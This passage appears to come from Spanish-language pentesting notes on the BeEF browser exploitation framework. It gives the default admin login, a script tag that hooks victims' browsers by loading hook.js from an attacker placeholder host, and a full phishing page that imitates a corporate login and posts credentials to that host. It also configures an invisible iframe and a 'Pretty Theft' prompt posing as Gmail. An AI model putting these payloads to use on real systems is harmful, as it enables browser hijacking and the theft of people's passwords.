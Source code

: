 ```bash
# 1. Iniciar BeEF
sudo beef-xss

# 2. Acceder al panel de administración
# http://localhost:3000/ui/panel
# Usuario: beef / Contraseña: beef
```

**Payload para inyectar:**
```html
<script src="http://[TU_IP]:3000/hook.js"></script>
```

### Ejemplo 2: Ataque de phishing interno

>[!example] Crear una página de phishing
>Redirigir a los usuarios a una página falsa para capturar credenciales

```javascript
// Módulo: Create Invisible Iframe
// URL objetivo: http://interno.empresa.com/login

// Configuración del módulo
{
  "url": "http://[TU_IP]/phishing.html",
  "width": "100%",
  "height": "100%"
}
```

**Página de phishing (phishing.html):**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Login Corporativo</title>
</head>
<body>
    <form action="http://[TU_IP]:3000/capture" method="POST">
        <input type="text" name="username" placeholder="Usuario">
        <input type="password" name="password" placeholder="Contraseña">
        <button type="submit">Iniciar Sesión</button>
    </form>
</body>
</html>
```

### Ejemplo 3: Keylogger y captura de información

>[!example] Capturar pulsaciones de teclado
>Instalar un keylogger en el navegador comprometido

```bash
# En el panel de BeEF:
# 1. Seleccionar navegador comprometido
# 2. Ir a Commands > Input
# 3. Ejecutar "Pretty Theft"

# Configuración Pretty Theft:
{
  "sitename": "Gmail",
  "message": "Su sesión ha expirado. Ingrese sus credenciales:"
}
```

---
